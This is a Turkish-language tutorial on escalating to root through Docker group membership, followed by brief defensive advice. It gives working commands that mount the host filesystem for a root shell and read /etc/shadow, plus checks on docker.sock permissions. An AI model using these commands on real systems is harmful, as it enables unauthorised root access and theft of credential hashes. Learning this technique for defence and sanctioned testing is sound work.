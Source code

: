 ### Docker ile Privilege Escalation (Yetki Yükseltme) Rehberi

Docker, konteyner tabanlı bir sanallaştırma platformudur. Yanlış yapılandırılmış Docker izinleri, saldırganların root yetkisi elde etmesi için fırsatlar sunabilir. Bu rehberde, Docker kullanılarak nasıl yetki yükseltme yapılacağını detaylı bir şekilde açıklayacağız.

---

#### 1. **Docker Nedir?**
Docker, uygulamaları ve bağımlılıklarını izole bir şekilde çalıştırmak için kullanılan bir platformdur. Ancak, bir kullanıcı Docker grubuna üye olduğunda, bu kullanıcı neredeyse sınırsız yetkiye sahip olabilir.

---

#### 2. **Docker Grubu Üyeliğini Kontrol Etme**
Sistemde Docker grubuna üye olup olmadığınızı kontrol etmek için şu komutu kullanabilirsiniz:
```bash
id
```
Eğer çıktıda `docker` grubu görünüyorsa, bu gruba üyeliğiniz vardır:
```
uid=1001(ahmet) gid=1001(ahmet) groups=1001(ahmet),110(docker)
```
Bu durumda, Docker yetkileri üzerinden yetki yükseltme yapılabilir.

---

#### 3. **Yetki Yükseltme için Gereken Adımlar**

##### Adım 1: **Docker Grubuna Üyeliği Kullanma**
Docker grubundaki bir kullanıcı, root yetkisine eşdeğer yetkilere sahiptir. Docker'ı kullanarak bir konteyner oluşturabilir ve host sistemine erişim sağlayabilirsiniz.

**Host Sistemde Root Shell Elde Etmek İçin:**
1. Root yetkileriyle bir Docker konteyneri çalıştırın:
    ```bash
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```
    Bu komut, host dosya sistemini bir konteyner içinde bağlar ve chroot kullanarak root shell açar.

2. Root shell elde ettiğinizde, sistemde istediğiniz işlemleri gerçekleştirebilirsiniz.

##### Adım 2: **Mevcut Konteynerleri Kötüye Kullanma**
Sistemde çalışan Docker konteynerleri üzerinden yetki yükseltmek için:
1. Çalışan konteynerleri listeleyin:
    ```bash
    docker ps -a
    ```
2. Bir konteynerin içine girin:
    ```bash
    docker exec -it <container_id> /bin/sh
    ```
    Eğer konteyner root yetkileriyle çalışıyorsa, host sistemine zarar verebilecek işlemler yapabilirsiniz.

##### Adım 3: **Özel Bir Görüntü Kullanma**
Docker yetkilerini suistimal etmek için özel bir görüntü oluşturabilirsiniz. Örneğin:
1. Kötü niyetli bir Dockerfile oluşturun:
    ```dockerfile
    FROM alpine
    CMD ["/bin/sh"]
    ```
2. Docker imajını oluşturun ve çalıştırın:
    ```bash
    docker build -t exploit .
    docker run --rm -it exploit
    ```

---

#### 4. **Yaygın Saldırı Senaryoları**

##### Senaryo 1: Docker Socket İstismarı
Eğer bir kullanıcı Docker socket’ine erişebiliyorsa, root yetkisi kazanabilir. Docker socket erişimini kontrol etmek için:
```bash
ls -l /var/run/docker.sock
```
Eğer yazma izniniz varsa, root yetkisine sahip olabilirsiniz.

##### Senaryo 2: Hassas Dosyalara Erişim
Docker kullanarak host sistemde hassas dosyalara erişmek mümkündür. Örneğin:
```bash
docker run -v /etc:/mnt --rm -it alpine cat /mnt/shadow
```
Bu komut, `/etc/shadow` dosyasını okumanıza olanak tanır.

##### Senaryo 3: Güvensiz İmajlar Kullanma
Güvenilmeyen Docker imajları kullanıldığında, kötü amaçlı kod host sisteminde çalıştırılabilir. Örneğin:
```bash
docker run --rm -it malicious_image
```

---

#### 5. **Savunma Yöntemleri**
Docker tabanlı yetki yükseltme saldırılarından korunmak için şu önlemleri alabilirsiniz:

1. **Docker Grubuna Erişimi Kısıtlayın:**
   Yalnızca güvenilir kullanıcıların Docker grubuna erişmesine izin verin:
   ```bash
   sudo gpasswd -d <kullanıcı> docker
   ```

2. **Docker Socket İzinlerini Kısıtlayın:**
   `/var/run/docker.sock` dosyasının yalnızca root ve yetkili kullanıcılar tarafından erişilebilir olduğundan emin olun.

3. **Güvenilir İmajlar Kullanın:**
   Docker Hub gibi kaynaklardan yalnızca resmi ve güvenilir imajları indirin.

4. **Kaynakları İzole Edin:**
   Konteynerlerin yalnızca gerekli kaynaklara erişmesine izin verin. Örneğin, `--cap-drop` seçeneği ile gereksiz yetenekleri kaldırabilirsiniz:
   ```bash
   docker run --rm -it --cap-drop=ALL alpine
   ```

5. **Güncellemeleri Yapın:**
   Docker ve ilgili bileşenlerin güncel olduğundan emin olun.

---

Bu rehberde Docker'ın yetki yükseltme saldırıları için nasıl kullanılabileceğini ve bu tür saldırılardan nasıl korunabileceğinizi öğrendiniz. Etik kurallar çerçevesinde çalışmayı unutmayın.

